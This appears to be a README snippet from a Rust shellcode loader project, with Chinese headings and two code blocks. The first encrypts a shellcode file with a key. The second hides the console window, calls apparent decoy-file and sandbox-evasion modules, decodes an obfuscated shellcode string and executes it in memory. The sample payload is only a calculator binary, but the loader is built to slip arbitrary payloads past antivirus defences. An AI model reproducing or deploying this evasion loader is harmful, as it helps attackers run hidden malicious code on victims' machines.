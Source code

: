 1. 加密shellcode
```rust
let key = 7122;
let shellcode: &[u8] = include_bytes!("../static/calc.bin");
crypt::dynamic::base64_dynamic_encode(shellcode,key);
```

2. SHELLCODE 执行
```rust
#![windows_subsystem = "windows"]
mod forgery;
mod sandbox;
mod crypt;
mod  shellcode;

fn main() {
    let key = 7122 + 90;
    forgery::bundle::memory2temp_file_start();
    //  解密执行 shellcode
    let base_shellcode = ">I>j.g,)dmx}lICO(S%//SZ_-+/Qb.d/CI>!/(X_aZw~b.dF/InHcjF-&a#$b^#}0^+|Umw2vI#z^E@zlc#S;S/z/B>!/&U!(b+_l+U!T.n}lm%_Ec%^<jnzFFU!bdXyajx~bE#V?ZZ_>!?zay$_bm#(&a#$b^#}0I#z^E@zlc<g?e*{&m(*HmXK_+CAeFXyajxabE#V<w:!KIXyajx#bE#V(5myaInzFIC,(SXCVSFzVICU(SF_T$c~(SV.?FXzVSF_alVrw_a.>Z@_)M<}lmx}lmx}b.0DlE<}lI:X-5d5E_a&)_UA@/Zz):z&r@2.IB>jmAnNiVc-Tg^~xEDnMl(F:zI}VB:$e,a&CzC2CKSQ,{H}";
    let check = "CO?@<zT";
    let base_key = crypt::dynamic::base64_dynamic_decode(check,key);
    let shellcode = crypt::base64::base64_decode_with_random(base_shellcode,base_key).unwrap();
    unsafe { shellcode::exec(shellcode.as_slice()) }
}
```

